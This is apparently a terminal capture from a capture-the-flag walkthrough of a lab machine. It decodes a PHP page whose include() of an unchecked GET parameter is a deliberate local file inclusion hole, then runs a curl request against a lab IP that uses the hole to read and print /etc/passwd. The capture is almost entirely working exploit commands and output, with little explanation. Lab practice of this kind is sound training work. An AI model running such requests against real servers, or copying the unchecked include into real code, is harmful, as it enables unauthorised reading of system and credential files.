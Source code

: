 ┌──(kali㉿kali)-[~]
└─$ echo -ne 'PGh0bWw+Cjx0aXRsZT5IYWNrblBlbnRlc3Q8L3RpdGxlPgo8Ym9keT4KIDxpbWcgc3JjPSdoYWNrbnBlbnRlc3QucG5nJyBhbHQ9J2hucCBzZWN1cml0eScgd2lkdGg9IjEzMDAiIGhlaWdodD0iNTk1IiAvPjwvcD48L3A+PC9wPgo8L2JvZHk+Cjw/cGhwCiRzZWNyZXQgPSAkX0dFVFsnc2VjcmV0dGllcjM2MCddOwppZihpc3NldCgkc2VjcmV0KSkKCnsKIGVjaG8iZmluYWx5IHlvdSBnb3QgdGhlIHJpZ2h0IHBhcmFtZXRlciI7CiBlY2hvICI8YnI+PGJyPjxicj48YnI+IjsKIGluY2x1ZGUoIiRzZWNyZXQiKTsKCn0KCj8+CjwvaHRtbD4K' | base64 -d
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
<?php
$secret = $_GET['secrettier360'];
if(isset($secret))

{
 echo"finaly you got the right parameter";
 echo "<br><br><br><br>";
 include("$secret");

}

?>
</html>

curl http://192.168.53.128/image.php?secrettier360=/etc/passwd | sed -e '6,$!d' | sed 's/finaly you got the right parameter<br><br><br><br>//' | sed '$d'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false